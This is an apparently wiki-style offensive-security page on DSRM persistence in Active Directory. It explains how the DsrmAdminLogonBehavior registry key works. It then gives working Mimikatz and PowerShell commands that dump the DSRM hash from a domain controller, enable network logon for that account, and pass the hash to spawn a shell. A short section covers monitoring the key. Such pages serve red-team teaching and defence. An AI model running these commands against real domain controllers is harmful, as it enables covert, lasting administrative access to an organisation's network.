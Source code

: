 ```yaml
---
authors: WodenSec
category: ad
---
```


# DSRM Persistence

## Theory

The Directory Services Restore Mode (DSRM) is a special mode available on every Domain Controller (DC) for recovery operations. When a server is promoted to a Domain Controller, a local administrator account named "Administrator" is created with a DSRM password. This password is rarely updated and is distinct from domain credentials, making it an interesting target for persistence.

An attacker with Domain Admin privileges (or local admin privileges on Domain Controllers) can retrieve the hash of the DSRM password using tools like Mimikatz and use it to maintain persistent access. By modifying specific configurations on the DC, it becomes possible to leverage the DSRM account remotely, including authenticating over the network.

The DSRM account, being a local administrator account on the DC, is not subject to domain password policies. However, by default, its use is limited to specific conditions, such as when the DC is booted into DSRM. These limitations can be bypassed by altering the registry key responsible for the account’s logon behavior.

The registry key `HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior` governs the conditions under which the DSRM account can be used:

- Value 0 (default): The account is usable only when the DC is started in DSRM.
- Value 1: Allows DSRM credentials when the local AD DS service is stopped.
- Value 2: Permits the use of DSRM credentials at all times, including over the network.

By exploiting these configurations, an attacker can utilize the DSRM account for long-term access to the DC without requiring domain credentials.

## Practice 

::: tabs

=== Windows

[Mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to perform the attack.

```powershell
# On the domain controller, retrieve the hash of the DSRM account (Administrator)
mimikatz.exe "token::elevate" "lsadump::sam"
# Set the registry key to allow login with the DSRM account
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
# Use the hash to authenticate and run a new PowerShell process
mimikatz.exe "sekurlsa::pth /domain:<DC_NAME> /user:Administrator /ntlm:<NTLM_HASH> /run:powershell.exe"
```

=== 🛠️ UNIX-like

// TODO

:::

## Mitigation

Monitor registry changes to `HKLM\System\CurrentControlSet\Control\Lsa\DsrmAdminLogonBehavior` and alert on values `1` or `2` (Event ID 4794).

## Resources

[https://adsecurity.org/?p=1714](https://adsecurity.org/?p=1714)

[https://adsecurity.org/?p=1785](https://adsecurity.org/?p=1785)